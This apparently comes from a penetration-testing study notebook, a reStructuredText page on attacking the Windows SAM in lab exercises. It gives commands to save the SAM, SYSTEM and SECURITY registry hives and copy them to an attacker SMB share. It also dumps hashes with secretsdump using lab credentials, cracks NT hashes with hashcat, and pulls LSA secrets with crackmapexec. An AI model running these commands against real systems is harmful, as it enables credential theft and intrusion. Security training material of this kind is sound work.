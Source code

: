 Attacking the SAM
####################

Date: 2024-11-22 08:05

Status:

Tags: 

:ref:`Certified Penetration Tester <Certified Penetration Tester>`
:ref:`Password Attacks <Password Attacks>`

Obtaining the Windows SAM hashes
********************************


.. code:: powershell

   reg.exe save hklm\sam c:\temp\sam.save
   reg.exe save hklm\system c:\temp\system.save
   reg.exe save hklm\security c:\temp\security.save

Create a share with :ref:`smbserver.py <smbserver.py>`

.. code:: bash

   sudo python3 smbserver.py -smb2support CompData /home/sambamount

And move these files to your attack machine.

.. code:: powershell

   move sam.save \\<attack-ip>\CompData
   move system.save \\<attack-ip>\CompData
   move security.save \\<attack-ip>\CompData

The secretsdump.py script from impacket to dump the hashes

.. code:: bash

   python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Example: Dumping the hashes remotely with secretsdump.py

.. code:: bash

   python secretsdump.py administrator.htb/ethan:limpbizkit@10.129.127.173

Example: Cracking NT hashes with hashcat

.. code:: bash

   sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

Getting credentials remotely
************************************

**LSASS** is the Local Security Authority Sub System

If you have credentials of a user that has local admin privileges, you
can dump the LSA secrets remotely

Example 1: using :ref:`crackmapexec <crackmapexec>` and the –lsa flag

.. code:: bash

   crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

Example 2: using :ref:`crackmapexec <crackmapexec>` and the –sam flag

.. code:: bash

   crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

References
****************************
